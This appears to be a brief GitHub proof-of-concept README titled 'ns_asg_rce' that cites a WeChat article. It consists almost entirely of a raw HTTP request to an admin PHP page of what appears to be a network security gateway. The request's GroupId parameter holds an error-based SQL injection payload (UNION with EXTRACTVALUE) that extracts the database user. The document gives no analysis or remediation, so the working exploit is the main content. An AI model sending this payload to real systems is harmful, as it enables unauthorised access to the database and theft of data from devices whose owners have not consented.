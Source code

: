 # ns_asg_rce

from:   https://mp.weixin.qq.com/s/GlnU-MgodF6qzSufXipwiw
2024.3.8 @2
```
GET /admin/list_ipAddressPolicy.php?GroupId=-1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+user()),0x7e)) HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```
